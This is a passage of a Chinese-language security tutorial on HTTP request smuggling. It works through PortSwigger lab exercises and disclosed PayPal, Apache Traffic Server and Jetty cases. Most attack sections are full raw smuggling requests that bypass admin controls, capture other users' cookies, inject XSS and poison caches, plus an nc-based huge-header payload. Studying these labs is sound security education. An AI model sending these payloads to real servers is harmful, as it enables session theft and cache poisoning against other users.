当我们发送 field name 与 : 之间有空格的 header 请求时， netty 会“正确”地返回 400 。

### CL-TE

接下来几个攻击方式我们可以通过 @portswigger 提供的几个 Lab 给我们进行练习以加深理解——[HTTP request smuggling](https://portswigger.net/web-security/request-smuggling)

在做之前记得要把 BurpSuite 的自动更新 Content-Length 功能取消了。

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191013185654.jpg)

首先我们来看 CL-TE 的情况：[Lab: HTTP request smuggling, basic CL.TE vulnerability](https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te)

> This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.
> 
> To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.

根据题目提示，我们只需要让 Backend 服务器收到 GPOST 方法即可，而且场景也明确告诉我们是一种 CL-TE 的场景。

```plain
POST / HTTP/1.1
Host: ac8f1fae1e6cd77b8073213100b500d6.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

根据题目的提示要求，这里我们发送两次以上 HTTP 请求包：

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191013190441.jpg)

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191013190452.jpg)

我们就可以使第二次请求构造出 GPOST 的 HTTP Method 了，详细的我们可以按照下面这个流程图来看看：

```plain
User            Front           Backend
                      |               |               |
                      |--A(1A+1/2B)-->|               | 
                      |               |--A(1A+1/2B)-->| 
                      |               |<-A(200)-------|
                      |               |            [1/2B]
                      |<-A(200)-------|            [1/2B]
                      |--C----------->|            [1/2B]
                      |               |--C----------->| * ending B *
                      |               |<--B(200)------|
                      |<--B(200)------|               |
```

-   1A + 1/2B 表示的是一个完整的请求 A + 一个不完整的请求 B
-   A(X) : 表示 X 请求隐藏在 A 请求的 body 当中
-   ending B: 请求 C 第一行被拼接到了不完整的请求 B 的 header 头当中，请求 C 其他所有的请求头都被添加到了请求 B 当中，这样请求 C 就相当于消失了，请求 B 会带着请求 C 的请求头去请求后段服务器，包括 Cookie 字段或者其他什么认证字段

整个过程就是，我们发送以上请求，当 Front 服务器优先以 CL 处理时，会认为

```plain
0\r\n
\r\n
G
```

以上 6 个字节为请求 A 的 body ，会将这个请求 A 当作一个完整的请求转发到后端，而当 Backend 服务器优先以 TE 处理时，会认为

```plain
POST / HTTP/1.1
Host: ac8f1fae1e6cd77b8073213100b500d6.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0
```

这个是一个完整的，单独的请求，而

```plain
G
```

这个他会视为一个不完整的请求，所以就造成了 1/2 B 请求的产生，于是会在 Backend 服务器缓冲区处等待其他数据的到来以使得将 1/2 B 拼接成一个完整的请求，当我们发送第二遍请求的时候，POST 会拼接到 G 后面，所以 HTTP Method 会变成 GPOST 方法，也就是我们看到的得到的回显，无法识别的 HTTP Method GPOST。

### TE-CL

接下来我们来看 TE-CL 的情况，同样我们借助 LAB 实验来加深理解：[Lab: HTTP request smuggling, basic TE.CL vulnerability](https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl)

> This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.
> 
> To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.

按照题目提示，我们要达到的仍然是让后端收到 GPOST 请求，而且场景也明确告诉我们是一种 TE-CL 的场景。

```plain
POST / HTTP/1.1
Host: acde1ffc1f047f9f8007186200ff00fe.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

12
GPOST / HTTP/1.1
0
```

这里需要注意的是最后需要加两个 CRLF 构造 chunk data，也就是

```plain
0\r\n
\r\n
```

根据题目的提示要求，这里我们发送两次以上 HTTP 请求包即可，我们可以收到如下图所示的响应。

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191122230209.png)

过程流程与 CL-TE 类似，Front 服务器处理这个请求的时候按照 TE 优先处理，会认为上面的请求为一个请求整体，然后转发给 Backend 服务器，Backend 服务器在处理的时候按照 CL 优先处理，会认为`12\r\n`为第一个请求的 body ，以下为第二个请求，所以会响应 GPOST 为无法识别的 HTTP Method。

### Two Identical Fields - TE

这里我们来看 TE 都存在的情况，同样我们借助 LAB 实验来加深理解：[Lab: HTTP request smuggling, obfuscating the TE header](https://portswigger.net/web-security/request-smuggling/lab-ofuscating-te-header)

> This lab involves a front-end and back-end server, and the two servers handle duplicate HTTP request headers in different ways. The front-end server rejects requests that aren't using the GET or POST method.
> 
> To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.

按照题目提示，我们要达到的仍然是让后端收到 GPOST 请求，而且场景也明确告诉我们是一种 TE-TE 的场景。其实这个场景也可以认为是相同字段的场景处理，比如说在处理两个 TE 字段，如果取第二个 TE 字段作为解析标准，而第二个字段值非正常或者解析出错，就可能会忽略掉 TE 字段，而使用 CL 字段进行解析。比如在这个 LAB 中，我们发送两遍如下请求：

```plain
POST / HTTP/1.1
Host: acfd1f201f5fb528809b582e004200a3.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=9swxitdhJRXeFhq77wGSU7fKw0VTiuzQ
Cache-Control: max-age=0
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: nothing

12
GPOST / HTTP/1.1

0
```

这里同上一个场景一样，需要在最后添加两个 CRLF ：

```plain
0\r\n
\r\n
```

我们就可以得到如下图的响应：

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191123002425.png)

我们可以看到这里是用了两个 TE 字段，并且第二个 TE 字段值非标准值，这里 Front 选择对第一个 TE 进行优先处理，整个请求则为正常请求，会转发给 Backend 服务器，而 Backend 服务器以第二个 TE 进行优先处理，而第二个 TE 值非正常，则会取 CL 字段进行处理，这样这个请求就会因为 CL 字段设置的值 4 而被拆分为两个请求。

第一个请求：

```plain
POST / HTTP/1.1
Host: acfd1f201f5fb528809b582e004200a3.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=9swxitdhJRXeFhq77wGSU7fKw0VTiuzQ
Cache-Control: max-age=0
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: nothing

12
```

第二个请求：

```plain
GPOST / HTTP/1.1

0
```

这样就发送了一个无法识别的 HTTP Method GPOST 请求。

## Attack Surface

上面我们大概介绍了几种攻击方式，下面我来看看这些攻击方式可以用来干嘛。同样我们将配合实验环境帮助理解与复现。

### Bypass Front-end Security Controls

这里提供了两个实验环境，一个是 CL-TE 形式的 [Lab: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te) ，一个是TE-CL 形式的 [Lab: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl)，两个实验最终达到的目的一样，这里我们随便选用 CL-TE 的来进行实验。

> ​ This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. There's an admin panel at /admin, but the front-end server blocks access to it.
> 
> To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user carlos.

架构一样，只不过这次我们需要去利用 HTTP Smuggling 获取 admin 权限并删除 carlos 用户。

我们生成 LAB 之后，直接访问`/admin`会发现 `"Path /admin is blocked"`，看来不能通过正常方式访问`/admin`，那我们尝试 HTTP Smuggling 的方式，发送如下数据包两次：

```plain
POST / HTTP/1.1
Host: ac211ffb1eae617180910ebc00fc00f4.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=KmHiNQ45l7kqzLTPM6uBMpcgm8uesd5a
Content-Length: 28
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
```

得到的响应如下两图

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191123154656.png)

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191123154609.png)

可以看到第二个请求我们得到了`/admin`的响应

```plain
<div class="container is-page">
  Admin interface only available if logged in as an administrator, or if requested as localhost
</div>
```

于是我们添加 HOST 头再次发送几次

```plain
POST / HTTP/1.1
Host: ac211ffb1eae617180910ebc00fc00f4.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=KmHiNQ45l7kqzLTPM6uBMpcgm8uesd5a
Content-Length: 45
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
```

我们可以看到成功访问到了`/admin`面板内容，如果不成功可以多发送几次试试看

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191123155053.png)

得到了删除的 api ，于是我们再利用 HTTP Smuggling 访问这个 `/admin/delete?username=carlos` 即可，构造如下数据包：

```plain
POST / HTTP/1.1
Host: ac211ffb1eae617180910ebc00fc00f4.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=KmHiNQ45l7kqzLTPM6uBMpcgm8uesd5a
Content-Length: 63
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
```

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191123155603.png)

这种攻击方式类似 HTTP SSRF ，主要的点就是在控制 CL 数值上，比如说第一个数据包 CL 的值为 28 ，是这么计算的：

```plain
0\r\n                                                       --> 3个字节
\r\n                                                        --> 2个字节
GET /admin HTTP/1.1\r\n                 --> 19+2 = 21 个字节
\r\n                                                        --> 2个字节
```

所以这么结算下来就是 3+2+21+2 = 28字节。

TE-CL 的情况类似，这里就不再重复举例了。

### Revealing Front-end Request Rewriting

> ​ 在有的网络环境下，前端代理服务器在收到请求后，不会直接转发给后端服务器，而是先添加一些必要的字段，然后再转发给后端服务器。这些字段是后端服务器对请求进行处理所必须的，比如：
> 
> -   描述TLS连接所使用的协议和密码
> -   包含用户IP地址的XFF头
> -   用户的会话令牌ID
> 
> 总之，如果不能获取到代理服务器添加或者重写的字段，我们走私过去的请求就不能被后端服务器进行正确的处理。那么我们该如何获取这些值呢。PortSwigger提供了一个很简单的方法，主要是三大步骤：
> 
> -   找一个能够将请求参数的值输出到响应中的POST请求
> -   把该POST请求中，找到的这个特殊的参数放在消息的最后面
> -   然后走私这一个请求，然后直接发送一个普通的请求，前端服务器对这个请求重写的一些字段就会显示出来。

有时候 Front 服务器会给转发的请求添加一些请求头再转发给 Backend 服务器，我们可以利用 HTTP Smuggling 的方式来泄露这些请求头。同样我们借助 LAB 来实践理解：[Lab: Exploiting HTTP request smuggling to reveal front-end request rewriting](https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting)

> This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.
> 
> There's an admin panel at /admin, but it's only accessible to people with the IP address 127.0.0.1. The front-end server adds an HTTP header to incoming requests containing their IP address. It's similar to the X-Forwarded-For header but has a different name.
> 
> To solve the lab, smuggle a request to the back-end server that reveals the header that is added by the front-end server. Then smuggle a request to the back-end server that includes the added header, accesses the admin panel, and deletes the user carlos.

这里根据题目提示，场景是一个 CL-TE 的场景，并且给出一个搜索框，我们尝试随便搜索一个 123 ，可以发现搜索结果“123”直接回显到了相应当中。

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191124191719.png)

尝试使用 HTTP Smuggling 方式访问，但是被 blocked ：

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191124203138.png)

然后我们可以尝试利用搜索回显把 Front 服务器转发的请求头给泄露出来：

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191124202357.png)

如果后面只是添加那个 X-\*-Ip 的请求头是访问不了 admin 面板的，因为这样会让 Backend 收到两个重复的请求头，在这个场景当中，Backend 服务器对重复的请求头做出了判断：

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191124204018.png)

所以我们需要把 Front 服务器添加的请求头给“隐藏”掉，我们就可以利用 Smuggling 通过 body 的方式把其他 Front 服务器添加的请求头“隐藏”掉，然后我们就可以得到 admin 面板回显：

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191124203108.png)

整个流程看起来比较简单，但是仔细做的话，其实 CL 的值比较关键，我们来看看泄露 Front 请求的那个数据包的 CL 值怎么算的：

```plain
0\r\n                                                                                                       --> 3个字节
\r\n                                                                                                        --> 2个字节
POST / HTTP/1.1\r\n                                                                         --> 17个字节
Content-Length: 70\r\n                                                                  --> 20个字节
Content-Type: application/x-www-form-urlencoded\r\n         --> 49个字节
\r\n                                                                                                        --> 2个字节
search=123                                                                                          --> 10个字节
```

总共是 103 个字节，这里的 CL 也可以不是 70 ，这里只是控制泄露多少字节的内容。

还有一个比较需要注意的就是如果你不添加 Content-Type 字段的话，需要在最后添加一个`\r\n`，否则会返回 400 。

### Capturing other users' requests

既然能拿到中间件请求，当然我们也可以尝试去拿其他用户的请求，也能拿到 Cookie 等，LAB 地址：[Lab: Exploiting HTTP request smuggling to capture other users' requests](https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests)

> This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.
> 
> To solve the lab, smuggle a request to the back-end server that causes the next user's request to be stored in the application. Then retrieve the next user's request and use the victim user's cookies to access their account.

原理也比较简单，我们可以找到一个发评论的地方，然后利用评论处进行 HTTP Smuggling，例如，我们可以构造以下请求包：

```plain
POST / HTTP/1.1
Host: ac951f7d1e9ea625803c617f003f005c.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=ipRivKyVnK41ZGBQk7JvtKjbD4drk2At
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 271
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 600
Cookie: session=ipRivKyVnK41ZGBQk7JvtKjbD4drk2At

csrf=oIjWmI8aLjIzqX18n5mNCnJieTnOVWPN&postId=5&name=1&email=1%40qq.com&website=http%3A%2F%2Fwww.baidu.com&comment=1
```

只要下面这个 CL 足够大，我们就可以用 HTTP Smuggling 把下一个用户的请求拼接到我们最后一个 comment 参数里面了，然后我们在看评论处就可以看到别人的请求头了。

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191124213544.png)

### Exploit Reflected XSS

这个利用场景可能比较受限，也比较少见，但是如果存在 HTTP Smuggling & reflected XSS ，我们就可以利用这个组合拳 X 到别人的 cookie

> This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.
> 
> The application is also vulnerable to [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) via the User-Agent header.
> 
> To solve the lab, smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes alert(1).

还是依旧的 CL-TE 场景，我们可以在 UA 处发现有一个反射 XSS，but 单是这样没什么用，所以我们得想点办法升级危害。

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191124235543.png)

我们可以构造以下数据包，只要发送一次

```plain
POST / HTTP/1.1
Host: ac811f011e27d43b80301693005a0007.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=iSxMvTrkiVN2G5N7EF7MTKgXGRE6A5xZ
Upgrade-Insecure-Requests: 1
Content-Length: 150
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: "><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```

然后我们随便访问该站任何页面都会被弹窗了，因为我们的请求被嵌入到了上面的第二个请求当中：

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191125000410.png)

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191125001149.png)

### Turn An On-Site Redirect Into An Open Redirect

这种攻击场景是在目标在使用 30x 跳转的时候，使用了 Host 头进行跳转，例如在 Apache & IIS 服务器上，一个uri 最后不带 / 的请求会被 30x 导向带 / 的地址，例如发送以下请求：

```plain
GET /home HTTP/1.1
Host: normal-website.com
```

我们会得到 Response :

```plain
HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```

看起来没什么危害，但是如果我们配合 HTTP Smuggling 就会有问题了，例如：

```plain
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```

Smugle 之后的请求会像以下这样：

```plain
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com
```

然后如果服务器根据 Host 进行跳转的话，我们会得到以下的 Response:

```plain
HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

这样，受害者，也就是访问`/scripts/include.js`这个的用户，会被跳转到我们控制的 url 了。

### Perform Web Cache Poisoning

这个场景也是基于上面的 Host 跳转的攻击场景，如果 Front 服务器还存在缓存静态资源的话，我们可以配合 HTTP Smuggling 进行缓存投毒，[Lab: Exploiting HTTP request smuggling to perform web cache poisoning](https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-poisoning)

> This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server is configured to cache certain responses.
> 
> To solve the lab, perform a [request smuggling](https://portswigger.net/web-security/request-smuggling) attack that causes the cache to be poisoned, such that a subsequent request for a JavaScript file receives a redirection to the exploit server.

这个环境也是一个可以修改 Host 进行跳转的场景，而在`/post/next?postId=2`路由正好有一个跳转的 api 供我们使用，这个路由跳转到的是`/post?postId=4`。

根据题目描述，我们需要实现缓存投毒， 例如这里我们就选择`/resources/js/tracking.js`进行投毒，LAB 还给了我们制造投毒的服务，于是我们可以进行以下设置：

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191129014911.png)

发送以下数据包一次：

```plain
POST / HTTP/1.1
Host: ac7a1f141fadd93d801c469f005500bf.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=f6c7ZBB52a6iedorGSywc8jM6USu4685
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 178
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: ac701fe61fabd97b8027465701f800a8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```

然后访问`/resources/js/tracking.js`:

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191129015245.png)

我们可以看到响应包的跳转地址被我们修改成了我们 exploit 的服务器地址，然后我们访问正常服务器主页试试：

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191129015530.png)

可以看到成功`alert(1)`。

整个流程我们可以利用以下流程来理解：

```plain
Innocent        Attacker          Front           Backend
    |               |               |               |
    |               |--A(1A+1/2B)-->|               | 
    |               |               |--A(1A+1/2B)-->| 
    |               |               |<-A(200)-------|
    |               |               |            [1/2B]
    |               |<-A(200)-------|            [1/2B]
    |               |--C----------->|            [1/2B]
    |               |               |--C----------->| * ending B *
    |               |            [*CP*]<--B(200)----|
    |               |<--B(200)------|               |
    |--C--------------------------->|               |
    |<--B(200)--------------------[HIT]             |
```

-   1A + 1/2B means request A + an incomplete query B
-   A(X) : means X query is hidden in body of query A
-   CP : Cache poisoning

与之前那个流程图类似，因为在 C 请求的`/resources/js/tracking.js`会被 Front 认为是静态资源缓存起来，而我们利用 HTTP Smuggling 将这个请求导向了我们的 exploit 服务器，返回了`alert(1)`给 C 请求，然后这个响应包就会被 Front 服务器缓存起来，这样我们就成功进行了投毒。

### Perform Web Cache Deception

其实这个场景与缓存投毒类似，但是稍有一点区别，按照比较官方的说法，缓存欺骗与缓存投毒有以下这些区别：

> ​ What is the difference between web cache poisoning and web cache deception?
> 
> -   In **web cache poisoning**, the attacker causes the application to store some malicious content in the cache, and this content is served from the cache to other application users.
> -   In **web cache deception**, the attacker causes the application to store some sensitive content belonging to another user in the cache, and the attacker then retrieves this content from the cache.

在 Web 缓存投毒中，攻击者使应用程序将某些恶意内容存储在缓存中，并将该内容从缓存中提供给其他应用程序用户。  
在Web缓存欺骗中，攻击者使应用程序将一些属于另一个用户的敏感内容存储在缓存中，然后攻击者从缓存中检索该内容。

这个我们就不配合 [Lab: Exploiting HTTP request smuggling to perform web cache deception](https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-deception) 来做了，因为 LAB 提供的环境 victim 有点问题。

我们可以这么理解，我们发送如下 HTTP 请求：

```plain
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 43
Transfer-Encoding: chunked

0

GET /private/messages HTTP/1.1
Foo: X
```

该 Smugle 的请求会用`Foo: X`吃掉下一个发过来的请求头的第一行，也就是`GET /xxx HTTP/1.1`那一行，并且这个请求还会带着用户的 Cookie 去访问，类似于一个CSRF，该请求变成了以下请求头：

```plain
GET /private/messages HTTP/1.1
Foo: XGET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com
Cookie: sessionId=q1jn30m6mqa7nbwsa0bhmbr7ln2vmh7z
```

只要我们多发送几次，一旦用户访问的是静态资源，就可能会被 Front 服务器缓存起来，我们就可以拿到用户`/private/messages`的信息了。这里可能需要大量的重复发包，因为需要构造让静态资源缓存，还是需要一定运气的。

至此，HTTP Smuggling 的基本攻击面都已经介绍完毕了。

# Real World

## Paypal

首先肯定得来聊聊今年分享 HTTP Smuggling 的作者在 Black Hat 上分享的 Paypal 漏洞实例了

作者首先通过 HTTP Smuggling 的方式将一个用于 Paypal 登录的 js 文件进行了投毒：

```plain
POST /webstatic/r/fb/fb-all-prod.pp2.min.js HTTP/1.1 
Host: c.paypal.com
Content-Length: 61 
Transfer-Encoding: chunked

0

GET /webstatic HTTP/1.1
Host: skeletonscribe.net?
X: XGET /webstatic/r/fb/fb-all-prod.pp2.min.js HTTP/1.1 
Host: c.paypal.com
Connection: close

HTTP/1.1 302 Found
Location: http://skeletonscribe.net?, c.paypal.com/webstatic/
```

但是 Paypal 登录页面有 CSP 规则 `script-src` 限制了这个跳转。

[](https://portswigger.net/cms/images/e1/5c/43ccf8d84ffc-article-paypal-01.svg)

后来作者发现该页面还有一个动态生成的 iframe 引入了 c.paypal.com ，且该子页面没有 CSP 而且还引入了作者投毒的 js 文件！虽然这样可以控制 iframe 页面，但是由于同源策略，是读不到父页面的数据的。

[](https://portswigger.net/cms/images/1e/65/8e618cf695b8-article-paypal-02.svg)

再接着作者的同事在 paypal.com/us/gifts 发现了一个不使用 CSP 的页面，并且也导入了作者投毒的 js 文件，这样作者终于通过 js 将 c.paypal.com 的 iframe 重定向到了 paypal.com/us/gifts ，这样就同源了，也就可以读取父页面的数据了。

[](https://portswigger.net/cms/images/13/0e/7fcaae230c37-article-paypal-03.svg)

Paypal 第一次修复是将 Akamai 配置修改成拒绝含有 Transfer-Encoding: chunked 的请求，但是后来又被作者构造了一个换行的 header 绕过了：

```plain
Transfer-Encoding:
 chunked
```

## ATS

> ​ Apache Traffic Server（ATS）是美国阿帕奇（Apache）软件基金会的一款高效、可扩展的HTTP代理和缓存服务器。
> 
> Apache ATS 6.0.0版本至6.2.2版本和7.0.0版本至7.1.3版本中存在安全漏洞。攻击者可利用该漏洞实施HTTP请求走私攻击或造成缓存中毒。
> 
> 在美国国家信息安全漏洞库中，我们可以找到关于该漏洞的四个补丁，接下来我们详细看一下。
> 
> CVE-2018-8004 补丁列表
> 
> -   [https://github.com/apache/trafficserver/pull/3192](https://github.com/apache/trafficserver/pull/3192)
> -   [https://github.com/apache/trafficserver/pull/3201](https://github.com/apache/trafficserver/pull/3201)
> -   [https://github.com/apache/trafficserver/pull/3231](https://github.com/apache/trafficserver/pull/3231)
> -   [https://github.com/apache/trafficserver/pull/3251](https://github.com/apache/trafficserver/pull/3251)
> 
> 注：虽然漏洞通告中描述该漏洞影响范围到7.1.3版本，但从github上补丁归档的版本中看，在7.1.3版本中已经修复了大部分的漏洞。

关于这四个补丁的分析与复现我觉得 @mengchen 师傅已经写的非常详细了，我就不在赘述了，建议看原文部分 [HTTP走私攻击实例——CVE-2018-8004](https://paper.seebug.org/1048/#4-httpcve-2018-8004)

这里我们说一下原文没有的部分：

```plain
[dummy-host7.example.com]
                                        |
                                  +-[8080]-----+
                                  | 8007->8080 |
                                  |  ATS7      |
                                  |            |
                                  +-----+------+
                                        |
                                        |
                                  +--[80]----+
                                  | 8002->80 |
                                  |  Nginx   |
                                  |          |
                                  +----------+
```

我们构建以上场景，可以使用我搭建的 docker 实验环境 [lab1](https://github.com/ZeddYu/HTTP-Smuggling-Lab/tree/master/lab1)

### Request Splitting using Huge Header

我们可以通过使用 65535 个字符的 header 来进行实验，比如说我们可以通过使用以下代码来发送一个含有 65535 个字符的 header 的请求到 ATS 7:

```plain
printf 'GET_/something.html?zorg2=5_HTTP/1.1\r\n'\
'Host:_dummy-host7.example.com\r\n'\
'X:_"%65534s"\r\n'\
'GET_http://dummy-host7.example.com/index.html?replaced=0&cache=8_HTTP/1.1\r\n'\
'\r\n'\
|tr " " "1"\
|tr "_" " "\
|nc -q 1 127.0.0.1 8007
```

nginx 的返回会直接返回 400 错误，但是有 ATS 7 就比较有趣了，我们会得到一个 400 响应以及 ATS 7 的 200 响应

```plain
HTTP/1.1 400 Invalid HTTP Request
Date: Fri, 29 Nov 2019 18:52:42 GMT
Connection: keep-alive
Server: ATS/7.1.1
Cache-Control: no-store
Content-Type: text/html
Content-Language: en
Content-Length: 220

<HTML>
<HEAD>
<TITLE>Bad Request</TITLE>
</HEAD>

<BODY BGCOLOR="white" FGCOLOR="black">
<H1>Bad Request</H1>
<HR>

<FONT FACE="Helvetica,Arial"><B>
Description: Could not process this request.
</B></FONT>
<HR>
</BODY>
```

```plain
HTTP/1.1 200 OK
Server: ATS/7.1.1
Date: Fri, 29 Nov 2019 18:52:42 GMT
Content-Type: text/html
Content-Length: 119
Last-Modified: Fri, 29 Nov 2019 05:37:09 GMT
ETag: "5de0ae85-77"
X-Location-echo: /index.html?replaced=0&cache=8
X-Default-VH: 0
Cache-Control: public, max-age=300
Accept-Ranges: bytes
Age: 0
Connection: keep-alive

<html><head><title>Nginx default static page</title></head>
<body><h1>Hello World</h1>
<p>It works!</p>
</body></html>
```

## Jetty

Jetty 有三个与 HTTP Smuggling 相关的 CVE：

-   CVE-2017-7656 HTTP/0.9 issue
    
    > ​ In Eclipse Jetty, versions 9.2.x and older, 9.3.x (all configurations), and 9.4.x (non-default configuration with RFC2616 compliance enabled), HTTP/0.9 is handled poorly. An HTTP/1 style request line (i.e. method space URI space version) that declares a version of HTTP/0.9 was accepted and treated as a 0.9 request. If deployed behind an intermediary that also accepted and passed through the 0.9 version (but did not act on it), then the response sent could be interpreted by the intermediary as HTTP/1 headers. This could be used to poison the cache if the server allowed the origin client to generate arbitrary content in the response.
    
-   CVE-2017-7657 Chunk size attribute truncation
    
